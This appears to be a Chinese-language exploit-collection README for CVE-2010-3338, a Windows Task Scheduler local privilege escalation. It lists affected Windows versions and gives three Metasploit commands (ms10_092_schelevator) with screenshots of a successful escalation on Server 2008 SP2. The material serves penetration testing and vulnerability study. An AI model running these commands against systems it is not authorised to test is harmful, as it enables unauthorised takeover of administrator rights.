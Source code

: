 ### CVE-2010-3338

#### 描述

Windows Task Scheduler无法正确确定计划任务的安全上下文，这使本地用户可以通过精心设计的应用程序获取特权

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | :heavy_check_mark: |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 利用方式

测试系统 Windows Server 2008 SP2 x86，利用msf执行如下命令即可，x64版本msf不支持

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf.png?raw=true)

然后就能提权成功了

![image-20200822234608009](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2010-3338_win2008_x86_msf2.png?raw=true)

